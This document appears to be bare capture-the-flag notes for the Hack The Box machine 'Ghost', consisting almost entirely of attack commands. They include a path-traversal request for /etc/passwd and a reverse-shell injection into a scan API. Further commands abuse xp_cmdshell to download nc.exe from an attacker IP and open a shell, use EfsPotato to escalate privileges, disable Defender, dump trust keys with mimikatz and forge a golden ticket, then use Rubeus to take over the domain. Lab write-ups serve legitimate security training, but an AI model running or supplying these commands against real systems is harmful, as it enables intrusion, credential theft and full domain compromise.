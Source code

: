 # Ghost


    http://ghost.htb:8008/ghost/api/v3/content/posts/?extra=../../../../etc/passwd&key=a5af628828958c976a3b6cc81a


    curl http://intranet.ghost.htb:8008/api-dev/scan -X POST -H 'X-DEV-INTRANET-KEY: !@y******' -H 'Content-Type: application/json' -d '{"url": "<<bash 196 revshell>>"}'


    python3 mssqlclient.py ghost.htb/intranet_principal:'He******'@DC01.ghost.htb -windows-auth

    impacket-mssqlclient florence.ramirez:'He*****'@ghost.htb -windows-auth

ux******和He******都可以

    enum_links

    use_link [PRIMARY]

    use master

    exec_as_login sa

--impacket-mssqlclient-- 
                      
    EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://10.10.xx.xx/nc.exe -OutFile $env:TEMP\nc.exe"'

    EXEC xp_cmdshell '%TEMP%\nc.exe -e cmd.exe 10.10.xx.xx xxxx';

                             
--python3 mssqlclient.py-- 

                              xp_cmdshell


./EfsPotato.exe 'nc.exe -e cmd.exe 10.10.xx.xx xxxx'


wmic useraccount get name,sid


关AV：

    Set-MpPreference -DisableRealtimeMonitoring $true



    .\mimikatz.exe "lsadump::trust /patch" exit


    .\mimikatz.exe "kerberos::golden /user:Administrator /domain:CORP.GHOST.HTB /sid:S-1-5-21-2034262909-2733679486-179904498-502 /sids:S-1-5-21-4084500788-938703357-3654145966-519 /rc4:dae1ad83e2af14a379017f244a2f5297 /service:krbtgt /target:GHOST.HTB /ticket:golden.kirbi" exit


    .\Rubeus.exe asktgs /ticket:golden.kirbi /dc:dc01.ghost.htb /service:CIFS/dc01.ghost.htb /nowrap /ptt


    type \\DC01.ghost.htb\c$\Users\justin.bradley\Desktop\user.txt
    
    type \\DC01.ghost.htb\c$\Users\Administrator\Desktop\root.txt
